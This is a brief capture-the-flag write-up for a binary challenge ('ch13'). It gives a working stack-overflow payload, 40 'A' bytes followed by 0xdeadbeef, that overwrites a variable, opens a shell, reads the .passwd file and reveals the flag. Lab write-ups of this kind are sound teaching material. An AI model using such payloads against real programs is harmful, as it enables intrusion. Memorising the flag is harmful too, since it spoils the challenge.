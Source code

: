 # Wirte up

Enter the select command
```
(python -c 'print "A"*40 + "\xef\xbe\xad\xde"'; cat) | ./ch13
```

Then, check the current directory and we find the ```.passwd``` file

FInally, open it !

```
cat .passwd
```

The flag is
```
1w4ntm0r3pr0np1s
```
